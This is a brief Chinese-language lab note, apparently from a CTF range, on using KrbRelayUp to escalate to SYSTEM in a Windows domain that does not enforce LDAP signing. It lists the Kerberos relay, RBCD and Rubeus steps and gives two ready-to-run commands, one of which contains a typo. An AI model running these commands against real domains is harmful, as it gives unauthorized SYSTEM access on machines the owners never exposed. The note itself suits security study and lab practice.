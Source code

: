 # krbrelayup
- 不开启 LDAP signing 的条件下实现域环境提权

云境 Endless/Tsclient

实现以下内容
- (可选）创建新机器账户（New-MachineAccount）
- 本地机器账户强制认证（KrbRelay）
- Kerberos 中继到 LDAP (KrbRelay)
- 为本地计算机添加 RBCD 权限并获取特权 ST (Rubeus)
- 使用上述 ST 验证本地服务管理器，并以 NT/SYSTEM 的身份创建新服务。(SCMUACBypass）

在未强制执行 LDAP 签名（默认设置）的 Windows 域环境中，这基本上是一种通用的无修复本地权限升级方法。

```ps1
.\KrbRelayUp.exe relay --doimain xiaorang.lab --CreateNewComputerAccount --ComputerName jiawei$ --ComputerPassword jiawei123... -cls c980e4c2-c178-4572-935d-a8a429884806
.\KrbRelayUp.exe spawn -m rbcd -d xiaorang.lab -dc DC01.xiaorang.lab -cn jiawei$ -cp jiawei123...
```